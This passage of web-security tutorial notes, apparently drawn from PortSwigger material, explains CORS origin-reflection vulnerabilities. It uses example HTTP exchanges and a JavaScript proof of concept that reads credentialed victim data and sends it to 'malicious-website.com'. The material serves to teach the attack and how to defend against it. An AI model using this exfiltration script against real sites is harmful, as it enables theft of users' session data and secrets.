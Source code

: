 One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```http 
GET /sensitive-victim-data HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://malicious-website.com  
Cookie: sessionid=...
```

It then responds with:

```http 
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://malicious-website.com  
Access-Control-Allow-Credentials: true  
...
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-domain requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or [[CSRF tokens]], you could retrieve this by placing the following script on your website:

```js 
var req = new XMLHttpRequest();  
req.onload = reqListener;  
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);  
req.withCredentials = true;  
req.send();  
  
function reqListener() {  
location='//malicious-website.com/log?key='+this.responseText;  
};
```

>LAB [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)


### Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted. For example, the application receives a normal request like:

```http 
GET /data HTTP/1.1  
Host: normal-website.com  
...  
Origin: https://innocent-website.com
```

